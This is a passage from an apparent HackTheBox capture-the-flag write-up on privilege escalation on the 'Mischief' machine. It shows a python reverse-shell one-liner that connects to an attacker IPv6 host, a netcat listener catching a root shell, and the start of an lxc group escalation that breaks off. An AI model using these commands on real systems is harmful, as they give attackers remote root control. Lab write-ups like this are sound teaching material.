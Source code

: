 

    loki@Mischief:~$ systemd-run python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100d",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
    Authentication is required to manage system services or other units.
    Authenticating as: root
    Password: 
    ==== AUTHENTICATION COMPLETE ===
    Running as unit: run-u20.service





    root@kali# nc -6 -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Connection from dead:beef::250:56ff:feb2:7cff.
    Ncat: Connection from dead:beef::250:56ff:feb2:7cff:48886.
    /bin/sh: 0: can't access tty; job control turned off
    # id
    uid=0(root) gid=0(root) groups=0(root)



### Option #3 - lxc \[PATCHED\]

On release, loki was in the group that allowed that user to run `lxc`
commands. LXC (Linux Containers) is an operation-system-level
virtualization method. But much like [being in the docker group gave me
root access in Olympus](/htb-olympus.md), the same
vulnerability exists with `lxc`.

This was patched on 16 July:

![](/img/1546490704616.png)

I'll run an `lxc` image with the system `/` mounted inside the image,
and make sure I'm root in the image:



    loki@Mischief:/dev/shm/.df$ lxc image import alpine-v3.8-x86_64-20180711_0823.tar.gz --alias alpine
    Image imported with fingerprint: b20b7859ced4cb00e9229397c089a4d72f87f96364658c9be9ffe739c03cdf38
